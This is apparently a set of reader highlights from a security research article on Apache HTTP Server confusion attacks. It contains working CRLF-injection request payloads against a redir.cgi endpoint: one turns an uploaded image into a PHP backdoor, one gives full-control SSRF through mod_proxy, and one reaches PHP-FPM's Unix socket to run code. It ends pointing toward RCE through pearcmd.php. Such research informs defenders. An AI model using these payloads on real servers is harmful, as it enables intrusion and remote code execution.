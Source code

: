 transform an image with a legitimate extension into a PHP backdoor. [](https://read.readwise.io/read/01jnnkhxg210dm4th3ha30wyz9)



this primitive allows specifying `mod_php` to execute embedded malicious code within the image [](https://read.readwise.io/read/01jnnkj6gzk00z2asm714yq7b0)



http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
 ***Location:/uploads/avatar.webp*** %0d%0a 
 ***Content-Type:application/x-httpd-php*** %0d%0a 
 %0d%0a [](https://read.readwise.io/read/01jnnkjmqf1c9kgz9500908shs)



Calling the `mod_proxy` to access any protocol on any URL is, of course, straightforward: [](https://read.readwise.io/read/01jnnkjy5cpysnrmbyc0t3rdkw)



http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
 ***Location:/ooo*** %0d%0a 
 ***Content-Type:proxy:http://example.com/%3F*** %0d%0a 
 %0d%0a [](https://read.readwise.io/read/01jnnkk17c9tfskb6st9v32nnp)



this is also a full-control SSRF where you can control all request headers and obtain all HTTP responses! [](https://read.readwise.io/read/01jnnkkwna6c46bk261jsw53z3)



✔️ 3-2-3. Arbitrary Handler to Access Local Unix Domain Socket [](https://read.readwise.io/read/01jnnkmjmggj7zkqprre4t996e)



`mod_proxy` offers a more “convenient” feature — it can access local Unix Domain Sockets! [](https://read.readwise.io/read/01jnnkmq36dyka4dc7tdrv0mmp)



emonstration accessing PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:
 > http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
 > ***Location:/ooo*** %0d%0a 
 > ***Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php*** %0d%0a 
 > %0d%0a [](https://read.readwise.io/read/01jnnkn07839z6bkyfkq14ke8z)



✔️ 3-2-4. Arbitrary Handler to RCE [](https://read.readwise.io/read/01jnnkn9eaetcqtvjrsrzhpfwg)



let’s demonstrate how to transform this primitive into an RCE using a common CTF trick! [](https://read.readwise.io/read/01jnnknmcq2aq6rv044ppp63g8)



the official [PHP Docker](https://hub.docker.com/_/php) image includes PEAR, a command-line PHP package management tool, using its `Pearcmd.php` as an entry point allows us to achieve further exploitation. You can check this article — [Docker PHP LFI Summary](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html) [](https://read.readwise.io/read/01jnnkp6kb11nht4mgkagwvta8)
